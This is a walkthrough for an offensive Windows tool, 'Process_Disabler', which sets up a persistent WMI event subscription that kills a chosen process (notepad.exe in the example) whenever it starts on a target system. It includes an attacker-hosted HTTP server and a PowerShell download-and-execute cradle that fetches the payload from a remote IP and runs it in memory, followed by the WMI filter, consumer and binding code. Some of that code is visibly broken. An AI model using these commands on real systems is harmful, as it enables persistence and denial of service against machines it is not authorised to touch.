

Process_Disabler uses powershell to create a WMI object that watches for a specific process to begin and then kills all running instances of that process, making the process unusable.
Walkthrough
Video Demo
Technical Details
Work With: Windows
Requires: Powershell v2+, an elevated shell
/dragonfire/bin/process_disabler/process_disabler.sh (alias=processdisabler) to generate the powershell script used to install the WMI-Object, as well as an uninstall script.
Once the script is created, either run the commands directly in an administrative powershell window, or (more likely) use powershell to download and run the script into memory.
You must use be running from an elevated process to install WMI-Objects
/dragonfire/bin/process_disabler/process_disabler.sh
The filter and consumer can be named anything, but they must be unique. If you install multiple process disablers (or use any other techniques that leverages this method) be sure not to duplicate names.

Now we just need to run this on our target system.
Start your python httpserver in the folder with your files.
python -m SimpleHTTPServer 8080
From an elevated command prompt, run your powershell pickup line.
powershell -c iex(New-Object Net.WebClient).DownloadString('http://192.168.142.134:8080/here')
And that's it. Notepad is busted.
To undo, just call the removal script instead.
powershell -c iex(New-Object Net.WebClient).DownloadString('http://192.168.142.134:8080/here_remove')
If you lose the removal file you can create another by re-running process_disabler with the same input.
$instanceFilter = ([wmiclass]"\\.\root\subscription:__EventFilter").CreateInstance()
$instanceFilter.QueryLanguage = "WQL"
$instanceFilter.Query = "select * from Win32_ProcessStartTrace where ProcessName='notepad.exe'"
$instanceFilter.Name = "UpdateFilter"
$instanceFilter.EventNamespace = 'root\cimv2'
$result = $instanceFilter.Put()
$newFilter = $result.Path
$instanceConsumer.CommandLineTemplate = "wmic process where name='notepad.exe' delete"
$instanceBinding = ([wmiclass]"\\.\root\subscription:__FilterToConsumerBinding").CreateInstance()
$instanceBinding.Filter = $newFilter
$instanceBinding.Consumer = $newConsumer
$result = $instanceBinding.Put()
$newBinding = $result.PathGet-WMIObject -Namespace root\Subscription -Class __EventFilter
Get-WMIObject -Namespace root\Subscription -Class CommandLineEventConsumer
Get-WMIObject -Namespace root\Subscription -Class __FilterToConsumerBinding